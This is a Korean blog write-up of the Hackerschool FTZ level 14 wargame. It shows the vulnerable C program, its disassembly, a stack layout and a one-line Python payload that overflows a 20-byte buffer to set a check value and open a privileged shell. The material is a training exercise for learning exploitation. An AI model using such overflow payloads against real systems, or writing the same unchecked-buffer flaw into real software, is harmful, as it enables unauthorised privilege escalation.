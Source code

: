 ```yaml
---
date: '2022-10-04'
before : '2022-10-03'
after : '2022-10-05'
title: '해커스쿨 FTZ 레벨 14'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또다시 BOF 문제이다. 이번에는 입력 크기에 제한을 받았지만, 배열의 길이가 20인것에 반해 입력은 45까지(...) 받는다.


그리고 저번 문제와 다르게, check값만 일치한다면 shell을 실행해준다.


### 1. Level 14

바로 cat hint로 소스코드를 확인해보자.
```
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

말했던 것처럼, 오버플로우가 충분히 일어날 수 있는 구조이다. 한 번 코드를 복사/컴파일 해서 gdb로 disassemble 해보자.

```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d0
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56] // char buf[20]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   cmp    DWORD PTR [ebp-16] // if, 12-16 = int check
0x080483e6 <main+46>:   jne    0x804840d <main+85>
0x080483e8 <main+48>:   sub    esp,0x8
0x080483eb <main+51>:   push   0xc17
0x080483f0 <main+56>:   push   0xc17
0x080483f5 <main+61>:   call   0x80482f8 <setreuid>
0x080483fa <main+66>:   add    esp,0x10
0x080483fd <main+69>:   sub    esp,0xc
0x08048400 <main+72>:   push   0x80484bc
```

생각보다 어렵지 않은 구조다. 재구성해보면 :

```
char[20] // 56-36
dummy[20] // 36-16
int check // 16-12
```
따라서 40바이트의 \x90과 4바이트의 int의 값을 맞춰주면 된다. 1 바이트나 여유가 남는다(!)

```
@BufferOverflow :
(python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

비밀번호 : guess what


문제가 조금씩 어려워지고 있다. 얼른 Level20까지 끝냈으면...

---
## Source

- 해커스쿨 FTZ
- Me!
